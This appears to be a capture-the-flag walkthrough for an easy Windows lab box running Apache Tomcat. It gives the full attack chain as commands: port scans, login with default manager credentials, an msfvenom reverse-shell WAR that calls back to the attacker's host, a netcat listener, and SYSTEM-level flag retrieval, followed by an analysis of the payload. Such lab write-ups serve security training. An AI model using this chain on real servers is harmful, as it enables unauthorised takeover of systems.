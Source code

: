 
# 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)

## 🧭 Recon

### 🔍 Full TCP Port Scan
```bash
nmap -sT -p- --min-rate 5000 10.10.10.95
```
- Only port **8080** is open.

### 🔍 Version Detection
```bash
nmap -sV -sC -p 8080 -oA nmap/initial 10.10.10.95
```
- Port 8080 runs [Tomcat](HTTP): `Apache Tomcat/Coyote JSP engine 1.1`.

---

## 🌐 [Web Discovery](HTTP)

### 🔑 Tomcat Manager Login
- Navigate to `http://10.10.10.95:8080`
- Default credentials work:
  ```text
  Username: tomcat
  Password: s3cret
  ```

- This provides access to the **Tomcat Manager Application**, including a WAR deployment section.

---

## 💣 Exploitation via WAR Upload

### ⚙️ Create Malicious WAR Reverse Shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.XX LPORT=9002 -f war > rev_shell.war
```

### 🧪 Discover JSP Payload Name
```bash
jar -tf rev_shell.war
# Output includes: ppaejmsg.jsp
```

### 🛜 Serve WAR File
Upload via Tomcat Manager at:  
➡️ `http://10.10.10.95:8080/manager/html`

### 📡 Trigger Reverse Shell
On attacker:
```bash
nc -lnvp 9002
```

On target:
```bash
curl http://10.10.10.95:8080/rev_shell/ppaejmsg.jsp
```

Shell received:
```bash
whoami
# nt authority\system
```

---

## 🏁 Flags

```bash
cd C:\Users\Administrator\Desktop\flags
type 2\ for\ the\ price\ of\ 1.txt
```

**🎯 Output:**
```
user.txt: 7004dbce...
root.txt: 04a8b36e...
```

---

## 🔍 Beyond Root – War File Analysis

### 📦 WAR = ZIP
```bash
unzip -l rev_shell.war
```

### 🧾 Key Contents:
- `WEB-INF/web.xml`: servlet definition
- `ppaejmsg.jsp`: main reverse shell payload

### 🧠 JSP Breakdown:
- Hex-encoded executable written to disk
- Executed via `Runtime.getRuntime().exec()`
- On Linux: chmod +x before execution
- On Windows: just run `.exe`

### 🔄 Reverse Engineering the Binary
```bash
cat hex | xxd -r -p > rev_shell.exe
```

### 🧪 Test via Wine + tcpdump
```bash
wine rev_shell.exe
tcpdump -i any port 9002
```

Confirmed reverse shell behavior with **exponential backoff retry pattern**.

---

## ✅ Summary

| Phase               | Achievement                              |
|--------------------|-------------------------------------------|
| Recon              | Found Tomcat on port 8080                 |
| Exploit            | Gained SYSTEM shell via WAR upload        |
| User Flag          | Retrieved from Administrator desktop      |
| Root Flag          | Included in same text file as user        |
| Analysis           | Decompiled and verified WAR structure     |
